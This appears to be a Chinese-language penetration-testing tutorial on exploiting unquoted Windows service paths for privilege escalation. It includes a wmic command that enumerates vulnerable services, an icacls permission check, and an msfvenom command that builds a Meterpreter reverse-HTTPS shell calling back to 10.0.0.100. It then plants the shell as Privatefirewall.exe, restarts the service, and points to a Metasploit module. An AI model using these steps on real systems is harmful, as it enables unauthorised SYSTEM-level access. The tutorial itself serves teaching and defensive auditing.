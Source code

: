 ## 0x1 不带引号的服务路径

漏洞利用条件：具有目标文件夹的写权限。

这个漏洞存在于二进制服务文件路径中Windows错误解释空格。这些服务通常都是以系统权限运行的，如果我们利用这些服务就可能提权到系统权限。例如如下文件路径：

```
C:\Program Files\Some Folder\Service.exe
```

上面文件路径中的空格，Windows会尝试寻找并执行以空格前单词为名字的程序，操作系统会在文件路径下查找所有可能匹配项直到找到一个匹配为止。例如如下例子，Windows会尝试定位并执行如下的程序：

```
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

*Note:这种特性发生在开发人员没有将整个文件路径包含在引号内。将文件路径包含在引号内会降低这个漏洞的威胁。所以这个漏洞被称为“不带引号的服务路径(Unquoted Service Paths.)”*

如果我们在这个文件夹下放置一个精心构造名字的恶意文件，在服务重启后，我们就拥有以系统权限运行的恶意程序了。然而，在放置恶意软件前我们首先要确保我们拥有目标文件夹的权限。那么下面让我们来看下如何发现和利用这个漏洞。

首先，我们可以利用下面一行WMI命令查询（作者：*[@Danial Compton](https://twitter.com/commonexploits)*），列出目标机器上所有没有用引号包含的服务路径：

查看 wmic 帮助信息`wmic /?` 

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

![https://image.3001.net/images/20151129/14487725241584.jpg!small](https://image.3001.net/images/20151129/14487725241584.jpg)

有命中的！PFNet服务的路径没有使用引号包含同时路径中包含空格。这里我们想要利用需要有文件夹的权限。假设我们已经有了设备上的管理员权限，那我们可以使用Windows内建工具icacls查看路径中受影响文件夹的权限：

```
icacls "C:\Program Files (x86)\Privacyware"
```

![https://image.3001.net/images/20151129/14487725595778.jpg!small](https://image.3001.net/images/20151129/14487725595778.jpg)

注意第一行`BUILTIN\Users:(OI)(CI)(M)`：列出了每个用户具有的权限。(M)代表修改权限，这是我们具有的权限，可以进行读、写和删除文件夹中的文件和子文件夹。我们太幸运了！我们现在可以随意的创建和删除名为`Privatefirewall.exe`的恶意软件。那么开始吧！

*Note:如果我们拥有Privacyware文件夹写权限也能完成同样的事情，更多关于Windows权限的资料请参考MSDN的链接：[File and Folder Permissions](https://msdn.microsoft.com/en-us/library/bb727008.aspx)*

当我们利用MSFVenom生成一个可执行文件时，我们希望能够在本地管理员组(windows/adduser)里增加一个账户或者弹回一个系统权限的Meterpreter shell(如下面示例)。当然也可以进行其他的操作。

```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f exe -o Privatefirewall.exe
```

![https://image.3001.net/images/20151129/14487725969663.jpg!small](https://image.3001.net/images/20151129/14487725969663.jpg)

现在我们来执行我们的恶意软件，尝试先关闭在开启PFNet服务以弹回我们的shell。我们可以使用内建工具`sc`完成这些：

```
sc stop PFNet
sc start PFNet
```

![https://image.3001.net/images/20151129/14487726268716.jpg!small](https://image.3001.net/images/20151129/14487726268716.jpg)

没用！原来我们只有服务文件夹的操作权限，但是没有操作PFNet服务本身的权限。这种情况下，我们只能等待有人重启目标机器或者重头再来。

当目标机器重启后，Windows定位并重启了我们的恶意软件弹回了一个具有系统权限的Shell。

![https://image.3001.net/images/20151129/14487726765085.jpg!small](https://image.3001.net/images/20151129/14487726765085.jpg)

**Metasploit Module:** `exploit/windows/local/trusted_service_path`

这个模块只需要我们连接到了一个Meterpreter会话即可运行。

![https://image.3001.net/images/20151129/14487727423173.jpg!small](https://image.3001.net/images/20151129/14487727423173.jpg)

这里我们查看源代码发现，这个模块通过正则表达式筛选出没有用引号包含起来的服务并创建一个易受攻击的服务列表，之后尝试针对列表中第一个服务在其文件夹下面放置一个恶意可执行文件，然后重启重启服务并在重启服务后移除之前放置的恶意可执行文件。

*Note：在这个模块代码中我没有看见任何一处在尝试放置可执行文件失败后检测是否拥有目标文件夹权限的代码。这让我有些疑惑…*

